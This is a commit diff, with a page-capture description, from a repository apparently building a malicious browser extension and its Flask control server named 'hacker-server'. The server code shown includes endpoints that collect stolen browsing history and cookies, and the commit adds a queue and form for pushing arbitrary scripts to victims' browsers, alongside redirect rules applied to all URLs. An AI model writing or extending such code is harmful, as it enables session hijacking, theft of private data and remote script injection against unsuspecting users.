

Before and after one commit to swuleung/ac.js, a Flask app: page / in a window 1280 px wide. Shown: the part 279-707 px from the top of the page. Run offline with Flask 2, Linux system fonts and the light colour scheme; tables that the repository leaves empty hold one stand-in row (values such as "Sample post"); some libraries are stand-ins or nearby versions.

Commit message:
Reformatted some server code, finished server/UI for script execution

```diff
--- a/Malex/scripts/redirect.js
+++ b/Malex/scripts/redirect.js
@@ -21,9 +21,10 @@ chrome.webRequest.onBeforeRequest.addListener(
                 });
             }
         });
+        /*
         return {
             redirectUrl: redirectURL
-        }
+        }*/
     },
     {
         urls: ["<all_urls>"],
--- a/hacker-server/server.py
+++ b/hacker-server/server.py
@@ -8,6 +8,7 @@ from pyfiles import users, login, secure, history, cookies
 
 app = Flask(__name__)
 
+executeQueue = {} # Faster than DB
 
 @app.route("/")
 def index():
@@ -35,6 +36,7 @@ def view_user(email):
     logs = login.get_logins_by_user(email)
     return render_template('user.html', email=email, history=hist, cookies=cook, logins=logs)
 
+########### SECURE ###########
 @app.route('/addSecure/<email>', methods=['POST'])
 def add_secure(email):
     if request.method == 'POST':
@@ -48,26 +50,28 @@ def delete_secure(email, url):
         secure.removeFromSecure(email, url)
         return redirect(url_for('index'))
 
+@app.route('/get_secure/<email>', methods=['GET'])
+def get_secure(email):
+    return jsonify(s=secure.getFromSecure(email))
+
+########### RANDOM ###########
+@app.route('/addRandom/<email>', methods=['POST'])
+def add_random(email):
+    if request.method == 'POST':
+        url = request.form['url']
+        secure.addToRandom(email, url)
+        return redirect(url_for('index'))
+
 @app.route('/deleteRandom/<email>/<url>', methods=['POST'])
 def delete_random(email, url):
     if request.method == 'POST':
         secure.removeFromRandom(email, url)
         return redirect(url_for('index'))
 
-@app.route('/get_secure/<email>', methods=['GET'])
-def get_secure(email):
-    return jsonify(s=secure.getFromSecure(email))
-
 @app.route('/get_random/<email>', methods=['GET'])
 def get_random(email):
     return jsonify(r=secure.getFromRandom(email))
 
-@app.route('/addRandom/<email>', methods=['POST'])
-def add_random(email):
-    if request.method == 'POST':
-        url = request.form['url']
-        secure.addToRandom(email, url)
-        return redirect(url_for('index'))
 
 @app.route("/steal_history", methods=['POST'])
 def steal_history():
@@ -97,6 +101,14 @@ def steal_cookies():
         cookies.bulk_add_to_cookies(email, url, cookie)
         return "WHATS UP dawg?"
 
+@app.route("/execute_script/<email>", methods=['POST'])
+def execute_script(email):
+    if request.method == 'POST':
+        script = request.form['script']
+        oldList = executeQueue.get(str(email), [])
+        oldList.append(str(script))
+        executeQueue[str(email)] = oldList
+        return redirect(url_for('index'))
 
 if __name__ == "__main__":
     # So template reloads when data is changed
--- a/hacker-server/templates/index.html
+++ b/hacker-server/templates/index.html
@@ -10,7 +10,7 @@
         <li> <a href="/view_user/{{user}}">{{user}}</a>
         <form action="{{ url_for('add_secure', email=user)}}" method="POST">
             <label for="url">Secure sites</label>
-            <input type="text" name="url" id="url" placeholder="example.com">
+            <input type="text" name="url" id="url" placeholder="example.com" required>
             <input type="submit">
         </form>
         <table class="table table-sm table-striped table-bordered">
@@ -25,7 +25,7 @@
                 <tr>
                     <td>{{url}}</td>
                     <td>
-                        <form action="{{ url_for('delete_secure', email=user, url=url)}}" method="POST">
+                        <form action="{{ url_for('delete_secure', email=user, url=url) }}" method="POST">
                             <button type="submit" class="btn btn-danger">Delete</button>
                         </form>
                     </td>
@@ -33,9 +33,9 @@
                 {% endfor %}
             </tbody>
         </table>
-        <form action="{{ url_for('add_random', email=user)}}" method="POST">
+        <form action="{{ url_for('add_random', email=user) }}" method="POST">
             <label for="url">Redirect sites</label>
-            <input type="text" name="url" id="url" placeholder="example.com">
+            <input type="text" name="url" id="url" placeholder="example.com" required>
             <input type="submit">
         </form>
         <table class="table table-sm table-striped table-bordered">
@@ -50,7 +50,7 @@
                 <tr>
                     <td>{{url}}</td>
                     <td>
-                            <form action="{{ url_for('delete_random', email=user, url=url)}}" method="POST">
+                        <form action="{{ url_for('delete_random', email=user, url=url) }}" method="POST">
                             <button type="submit" class="btn btn-danger">Delete</button>
                         </form>
                     </td>
@@ -59,6 +59,14 @@
             </tbody>
         </table>
         <hr>
+        <form action="{{ url_for('execute_script', email=user) }}" method="POST">
+            <div class="form-group">
+                <label for="execute-script">Execute Script</label>
+                <textarea class="form-control" name="script" id="execute-script" rows="4"
+                    placeholder="<script>alert('Hello');</script>" required></textarea>
+            </div>
+            <button type="submit" class="btn btn-warning">Execute</button>
+        </form>
         </li>
         {% endfor %}
     </ul>
```
Also changed, not shown: hacker-server/general_db.py (+7 -1 lines). Lines whose indentation alone changed are shown as unchanged.
